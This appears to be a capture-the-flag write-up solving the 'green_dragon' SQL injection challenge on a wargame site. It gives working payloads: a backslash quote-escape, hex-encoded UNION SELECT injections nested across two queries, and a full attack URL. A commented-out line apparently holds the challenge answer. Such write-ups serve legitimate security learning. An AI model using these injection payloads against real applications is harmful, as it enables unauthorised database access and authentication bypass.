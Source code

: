 ```yaml
---
layout: default
title: green_dragon
---
```


First, we can see we still can use `/`.
So, let's escape the query by giving this:
```sql
?id=\&pw= union select (0x61646d696e) as id,2 as pw -- 
```

and then, query 1:
```
query : select id,pw from prob_green_dragon where id='\' and pw=' union select (0x61646d696e) as id,2 as pw -- '
```

and query 2:
```
query2 : select id from prob_green_dragon where id='admin' and pw='2'
```

So, know we need to do the same trick, building our own query inside the second query.

This `union select (0x61646d696e) as id -- ` in hex will be `0x756e696f6e2073656c656374202830783631363436643639366529206173206964202d2d20`

```
https://los.rubiya.kr/chall/green_dragon_74d944f888fd3f9cf76e4e230e78c45b.php?id=\&pw=%20union%20select%20(0x5c)%20as%20id,0x756e696f6e2073656c656374202830783631363436643639366529206173206964202d2d20%20as%20pw%20--%20
```

And then, first query:
```sql
query : select id,pw from prob_green_dragon where id='\' and pw=' union select (0x5c) as id,0x756e696f6e2073656c656374202830783631363436643639366529206173206964202d2d20 as pw -- '
```

and second query:
```sql
query2 : select id from prob_green_dragon where id='\' and pw='union select (0x61646d696e) as id -- '
```

![FINAL](./images/green_dragon_FINAL.png)

<!-- **Password:** ***`aasup3r_secure_email@emai1.com`***  -->
